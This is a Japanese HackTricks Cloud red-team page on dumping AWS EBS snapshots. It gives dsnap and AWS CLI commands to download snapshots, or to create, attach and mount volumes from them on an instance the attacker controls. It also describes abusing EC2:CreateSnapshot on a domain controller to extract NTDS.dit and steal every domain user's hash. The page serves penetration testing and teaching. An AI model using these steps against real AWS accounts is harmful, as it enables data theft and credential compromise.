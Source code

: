 # AWS - EBS スナップショットダンプ

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でAWSハッキングをゼロからヒーローまで学ぶ</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>

### スナップショットをローカルでチェックする
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
この技術についての詳細は、オリジナルの研究をご覧ください [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

Pacuを使用して、モジュール [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots) でこれを実行できます。

### AWSでスナップショットをチェックする

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**コントロール下のEC2 VMにマウントする** (バックアップのコピーと同じリージョン内である必要があります):

**ステップ 1:** EC2 –> ボリュームに移動し、希望のサイズとタイプの新しいボリュームを作成します。

**ステップ 2:** 作成したボリュームを選択し、右クリックして「ボリュームのアタッチ」オプションを選択します。

**ステップ 3:** 下に示すように、インスタンステキストボックスからインスタンスを選択します。

![](<../../../../.gitbook/assets/image (6) (1) (1) (1).png>)

**ステップ 4:** 今、ec2インスタンスにログインし、以下のコマンドを使用して利用可能なディスクをリストします。
```
lsblk
```
上記のコマンドは、インスタンスにアタッチしたディスクをリスト表示します。

**ステップ 5:**

![](<../../../../.gitbook/assets/image (59).png>)

Pacuを使用して、モジュール ebs\_\_explore\_snapshots でこれを行うことができます。

### AWSでスナップショットを確認する（cli使用）

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

### シャドウコピー

**`EC2:CreateSnapshot`** 権限を持つ任意のAWSユーザーは、**ドメインコントローラーのスナップショット**を作成し、それを自分たちが制御するインスタンスにマウントし、Impacketのsecretsdumpプロジェクトで使用するために**NTDS.ditおよびSYSTEM**レジストリハイブファイルをエクスポートすることで、すべてのドメインユーザーのハッシュを盗むことができます。

このツールを使用して攻撃を自動化できます: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) または、スナップショットを作成した後に前述の技術のいずれかを使用することもできます。

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)で</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>AWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加する、または**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks) および [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) githubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>

